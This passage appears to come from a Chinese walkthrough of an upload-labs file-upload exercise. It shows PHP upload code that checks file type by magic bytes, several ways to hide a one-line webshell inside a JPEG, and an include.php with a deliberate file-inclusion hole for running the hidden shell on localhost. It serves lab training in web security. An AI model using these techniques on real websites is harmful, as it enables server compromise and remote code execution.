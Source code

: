     $is_upload = false;
    $msg = null;
    if(isset($_POST['submit'])){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $file_type = getReailFileType($temp_file);

        if($file_type == 'unknown'){
            $msg = "文件未知，上传失败！";
        }else{
            $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
            if(move_uploaded_file($temp_file,$img_path)){
                $is_upload = true;
            } else {
                $msg = "上传出错！";
            }
        }
    }

制作图片马：

    >copy 1.jpg /b + 1.txt /a shell.jpg

1.txt中的内容为一句话木马，1.jpg则是一张图片。生成的图片马是shell.jpg。

其他制作图片马方法：

    1、右键图片选择属性，详细信息，版权处加入木马。

    2、edjpg软件
    将图片直接拖到edjpg.exe上，在弹出窗口内输入一句话木马即可。

    3、十六进制编辑器编辑添加
    用010 Editor或winhex等十六进制编辑器打开图片，将一句话木马插入到右边最底层或最上层后保存。

顺利的上传图片马，图片名会重新命名，所以burp上传，记得看一下。直接访问图片并不能把图片当做PHP解析，因此还需要利用文件包含漏洞

利用include.php实现文件包含（自带有）：

    <?php
    /*
    本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
    */
    header("Content-Type:text/html;charset=utf-8");
    $file = $_GET['file'];
    if(isset($file)){
        include $file;
    }else{
        show_source(__file__);
    }
    ?>

http://127.0.0.1/include.php?file=./upload/7120210518080656.jpg

## Pass-14 图片马 getimagesize() 文件包含利用

源码
